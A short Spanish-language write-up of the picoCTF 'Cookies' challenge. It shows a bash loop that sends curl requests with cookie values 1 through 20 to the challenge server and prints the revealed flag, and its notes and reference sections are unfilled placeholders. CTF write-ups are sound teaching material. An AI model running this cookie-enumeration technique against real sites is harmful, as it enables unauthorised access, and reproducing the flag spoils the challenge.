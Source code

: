 # Cookies
#picoCTF 
## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

## Pistas 
(None)

## Solución
```bash 
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}</code></p>
^C
                                                                             
┌──(kali㉿kali)-[~]
└─$ 

```
## Bandera
picoCTF{}

## Notas adicionales
| comando | descripción |
|------------|---------------|
| xx | xx |

## Referencias
